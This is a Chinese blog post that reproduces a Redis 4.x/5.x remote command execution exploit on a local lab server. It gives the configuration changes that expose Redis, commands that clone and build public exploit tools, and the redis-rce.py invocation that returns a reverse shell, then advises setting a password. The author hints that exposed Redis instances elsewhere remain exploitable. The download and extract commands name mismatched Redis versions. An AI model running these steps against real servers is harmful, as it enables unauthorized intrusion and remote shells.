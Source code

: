 ```yaml
---
layout:     post
title:      Redis 4.x 5.x 远程命令执行漏洞
subtitle:   Redis RCE
date:       2019-07-09
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

# 前言
今天在日志分析的我，收到了朋友的发给我的Redis 4.x 5.x RCE EXP，于是我就又开始了我的漏洞复现之路...
# 环境搭建
由于看到是Redis 4.x 5.x RCE EXP，我就下载一个5.0.0版本吧：
```
wget http://download.redis.io/releases/redis-5.0.5.tar.gz
tar xzf redis-5.0.0.tar.gz
cd redis-5.0.5
make
```

## 修改配置文件运行远程访问
1、将redis.conf文件中的bind 127.0.0.1 这行前面加注释(#)；
2、将redis.conf文件中的 protected-mode yes 改为no；
## 运行Redis
```
./redis-server /root/redis/redis-5.0.0/redis.conf
```

## 下载EXP
```
git clone https://github.com/Ridter/redis-rce.git
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
```
编译module.so文件：
```
cd RedisModules-ExecuteCommand/
ls
make
```
编译完成后，文件会在src目录下生成：
![图片](../../../../img/redis_rec_1.png)

将编译完的module.so复制到redis-rce目录下，然后执行以下命令：
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f module.so
```
-r参数是指远程Redis IP地址；
-L参数是指反弹到的服务器IP地址；
执行命令后，开启监听了本地的21000端口，并成功反弹回了shell。
![图片](../../../../img/redis_rec_2.png)

# 修复建议
该漏洞鸡肋的是如果设置了Redis的密码就没辙了...但是Redis未授权访问还没灭绝，以后遇到Redis未授权访问还是可以利用利用的！
只要把redis.conf文件中的requirepass 取消注释，并修改为高强度密码即可暂时性的躲避该漏洞的危害。
![图片](../../../../img/redis_rec_3.png)

![图片](../../../../img/redis_rec_4.png)


